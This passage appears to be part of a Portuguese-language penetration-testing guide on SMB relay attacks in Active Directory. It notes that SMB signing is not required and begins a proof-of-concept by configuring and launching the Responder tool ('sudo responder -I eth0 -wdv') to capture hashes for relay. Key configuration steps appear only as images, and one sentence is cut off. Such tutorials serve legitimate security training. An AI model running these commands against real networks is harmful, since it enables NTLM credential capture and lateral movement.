 Podemos verificar que está activo mas não é obrigatório o seu uso, desta forma é vulnerável.

![](../ad\_smbrelay/smbrecon.png#center)

### Exploração (PoC)

#### Configuração do _responder_

Como o objectivo é reenviar a _hash_ que iremos receber para outra workstation iremos configurar o _responder_ . Teremos que desabilitar

```bash
sudo vi /etc/responder/Responder.conf
```

![](../../.gitbook/assets/smbrelayresponderconfig.png)

```bash
sudo responder -I eth0 -wdv

```

![](../../.gitbook/assets/smbrelayresponderrunning.png)
